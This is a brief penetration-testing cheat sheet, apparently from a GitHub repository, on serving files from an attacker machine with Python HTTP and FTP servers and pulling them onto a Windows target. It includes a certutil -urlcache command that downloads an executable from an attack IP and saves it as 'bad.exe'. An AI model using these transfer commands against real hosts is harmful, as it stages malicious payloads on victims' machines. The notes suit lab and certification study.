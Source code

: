 -- -
## Server 
-- -
#### HTTP
```powershell
python -m http.server 80 # if permission issues, do 8080 or 8000
python -m SimpleHTTPServer 80
```
#### FTP
```powershell
python -m pyftpdlib 21
```
## Download
-- -
#### HTTP
```powershell
# You can also open a broswer to you attack ip and get it that way
# I don't think the -f is necessary
certutil -urlcache http://<attack ip>/<filepath> <output file>
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
```
#### FTP
```powershell
ftp <attack ip>
get file
```